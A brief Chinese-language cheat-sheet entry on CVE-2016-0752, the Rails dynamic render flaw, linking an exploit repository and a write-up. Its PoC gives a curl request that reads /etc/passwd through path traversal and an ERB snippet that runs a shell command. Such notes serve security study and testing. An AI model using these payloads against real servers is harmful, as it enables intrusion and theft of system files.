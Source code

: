 ### CVE-2016-0752

参考链接

* [forced-request/rails-rce-cve-2016-0752 - Exploiting CVE-2016-0752](https://github.com/forced-request/rails-rce-cve-2016-0752)
* [Rails Dynamic Render to RCE (CVE-2016-0752)](https://nvisium.com/resources/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html)

Poc

```
# 包含文件
curl 'http://127.0.0.1/users/%2fetc%2fpasswd'

# <%= `cp /etc/passwd /tmp` %>
# 还可以在模板里执行命令
```

